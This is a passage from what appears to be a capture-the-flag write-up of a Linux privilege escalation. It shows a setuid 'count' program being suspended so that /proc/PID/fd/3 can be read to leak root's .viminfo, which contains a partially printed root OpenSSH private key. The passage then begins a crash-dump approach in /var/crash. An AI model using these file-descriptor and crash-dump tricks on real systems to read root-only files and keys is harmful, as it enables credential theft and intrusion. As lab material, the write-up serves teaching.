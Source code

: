     mesg n 2> /dev/null || true
    

#### Find SSH Key

I’ll note that `.viminfo` is readable in `/root`. This is a file that supports
the `vim` text editor, and can include history. I’ll use the same trick to
read it:

    
    
    Enter source file/directory name: /root/.viminfo
    
    Total characters = 16370
    Total words      = 2228
    Total lines      = 562
    Save results a file? [y/N]: ^Z
    [1]+  Stopped                 ./count
    dasith@secret:/opt$ pidof count
    1557                                    
    dasith@secret:/opt$ cat /proc/1557/fd/3
    # This viminfo file was generated by Vim 8.1.
    # You may edit it if you're careful!
    ...[snip]...
    # Registers:
    ""0     LINE    0
            -----BEGIN OPENSSH PRIVATE KEY-----
            b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
            NhAAAAAwEAAQAAAYEAn6zLlm7QOGGZytUCO3SNpR5vdDfxNzlfkUw4nMw/hFlpRPaKRbi3
            KUZsBKygoOvzmhzWYcs413UDJqUMWs+o9Oweq0viwQ1QJmVwzvqFjFNSxzXEVojmoCePw+
    ...[snip]...
            xhDYPO15YxLBhWJ0J3G9v6SN/YH3UYj47i4s0zk6JZMnVGTfCwXOxLgL/w5WJMelDW+l3k
            fO8ebYddyVz4w9AAAADnJvb3RAbG9jYWxob3N0AQIDBA==
            -----END OPENSSH PRIVATE KEY-----
    ...[snip]...
    

There’s an SSH key!

### Exploit Crash Dump

#### Generate Dump

There’s a comment in the source `// Enable coredump generation`. That’s a good
hint to try generating a crash of the process. When a program crashes, the
system stores the crash dump files
[in](https://refspecs.linuxfoundation.org/FHS_2.3/fhs-2.3.html#VARCRASHSYSTEMCRASHDUMPS)
`/var/crash`. There’s actually already two there:

    
    
    dasith@secret:/var/crash$ ls -l                   
    total 52                                                                                                 
    -rw-r----- 1 root root 27203 Oct  6 18:01 _opt_count.0.crash
    -rw-r----- 1 root root 24048 Oct  5 14:24 _opt_countzz.0.crash
    
